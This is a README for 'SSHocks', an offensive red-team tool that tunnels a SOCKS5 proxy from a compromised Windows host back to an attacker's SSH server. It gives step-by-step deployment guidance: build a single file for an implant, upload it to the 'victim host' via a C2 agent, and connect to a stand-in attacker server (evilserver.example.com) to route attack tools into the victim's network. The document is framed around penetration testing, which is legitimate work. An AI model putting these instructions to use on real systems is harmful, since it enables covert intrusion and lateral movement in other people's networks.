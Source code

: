 <h1>SSHocks v.1.0.0</h1>
                                       
SSHocks was born out of a penetration testing need. On a Red Team engagement, we needed to get a Socks5 proxy up and fast. We originally had one working through an SSH tunnel using OpenSSH natively installed on a Windows 10 target. However, partway through our engagement, the client placed protections that stopped ssh.exe from functioning. I got to work and cobbled together this simple SSH client with full Socks5 support. I wanted it to be a single executable file so it was easy to upload. It's built targeting .NET Framework 4.5.2. To get a single file for upload or Assembly Load in your implant, you'll have to use ILMerge to combine the executable and the 2 DLL files that are generated at compile.

-Example: *ILMerge.exe /out:SSHocks_merged.exe SSHocks.exe Renci.SshNet.dll CommandLine.dll*

The latest release is confirmed to work on Windows 10 hosts. It has not yet been tested on other versions of Windows. (I just built it! Give me time man!) If you've tried it on something other than Windows 10, please let me know!

**USAGE:** SSHocks.exe -s [SSH server] -p [SSH Port] -u [username] -k [Base64 encoded private key] -r [remote socks port] -l [local socks port]

(Ex. SSHocks.exe -s evilserver.example.com -p 2222 -u victimUser -k <Base64 Blob> -r 1080 -l 1080)

**NOTES:**

1. You will need to create the user account on your SSH server. Then, generate a keypair on your SSH server for your victim's user account. **DO NOT SET A PASSWORD ON THE KEY.** SSHocks supports ed_25519 keys only.

2. a) Upload SSHocks.exe to the victim host using your C2 agent or whatever other means you might have for uploading sketchy stuff.
   b) Assembly Load SSHocks.exe using your implants Assembly Load feature.

3. If uploaded, execute using your prefered binary execution method.
   
4. Once the client is connected to your attack SSH server and you've verified the proxy port is listening, you can use any proxy aware program or tool to attack the victim's network. Use Proxychains with non-proxy aware tools. Just make sure your proxychains.conf file is properly configured for the correct port and is using socks5.

7. **SHUT DOWN** Since the point was to use this via a C2 impant which is likely to not provide an interactive shell, I baked in a way to gracefully shut the proxy and tunnel down using a remote proxy command. Simply use proxychains or some other means to send:
  
   *curl xxx.xxx*
   
The proxy will receive the connection request and interpret it as a command to shutdown, and will disconnect gracefully.

<h2>To Do:</h2>
- Add option to hardcode private key in the source before compiling
